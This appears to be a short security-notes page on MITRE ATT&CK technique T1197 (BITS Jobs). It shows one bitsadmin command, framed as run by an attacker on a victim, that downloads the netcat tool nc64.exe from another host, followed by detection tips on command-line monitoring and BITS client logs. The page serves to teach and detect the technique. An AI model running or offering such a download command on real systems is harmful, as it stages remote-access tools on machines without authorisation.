 ```yaml
---
description: File upload to the compromised system.
---
```


# T1197: BITS Jobs

## Execution

{% code title="attacker@victim" %}
```c
bitsadmin /transfer myjob /download /priority high http://10.0.0.5/nc64.exe c:\temp\nc.exe
```
{% endcode %}

![](../../.gitbook/assets/bits-download.png)

## Observations

Commandline arguments monitoring can help discover bitsadmin usage:

![](../../.gitbook/assets/bits-cmdline.png)

`Application Logs > Microsoft > Windows > Bits-Client > Operational` shows logs related to jobs, which you may want to monitor as well. An example of one of the jobs:

![](../../.gitbook/assets/bits-operational-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1197" %}

